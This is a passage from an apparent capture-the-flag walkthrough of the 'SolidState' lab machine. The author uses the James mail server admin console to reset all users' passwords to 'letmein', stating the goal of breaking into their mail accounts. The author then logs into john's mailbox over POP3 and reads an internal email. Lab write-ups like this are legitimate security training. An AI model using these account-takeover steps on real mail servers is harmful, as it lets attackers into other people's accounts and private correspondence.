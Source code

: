 <br />
Reset all of their passwords so we can break into all of their mail accounts.

{% raw %}
```sh
setpassword james letmein
Password for james reset
setpassword thomas letmein
Password for thomas reset
setpassword john letmein
Password for john reset
setpassword mindy letmein
Password for mindy reset
setpassword mailadmin letmein
Password for mailadmin reset
quit
Bye
```
{% endraw %}

<br />
The first mailbox we will check is the John mailbox.  It is asking to restrict Mindy's account and assign her a temp password.  Good to know.

{% raw %}
```sh
┌──(kali㉿kali)-[~/Documents/htb/solidstate]
└─$ telnet 10.10.10.51 110
Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
+OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready 
USER john
+OK
PASS letmein
+OK Welcome john
LIST
+OK 1 743
1 743
.
RETR 1
+OK Message follows
Return-Path: <mailadmin@localhost>
Message-ID: <9564574.1.1503422198108.JavaMail.root@solidstate>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: john@localhost
Received: from 192.168.11.142 ([192.168.11.142])
          by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 581
          for <john@localhost>;
          Tue, 22 Aug 2017 13:16:20 -0400 (EDT)
Date: Tue, 22 Aug 2017 13:16:20 -0400 (EDT)
From: mailadmin@localhost
Subject: New Hires access
John, 

Can you please restrict mindy's access until she gets read on to the program. Also make sure that you send her a tempory password to login to her accounts.

Thank you in advance.

Respectfully,
James

```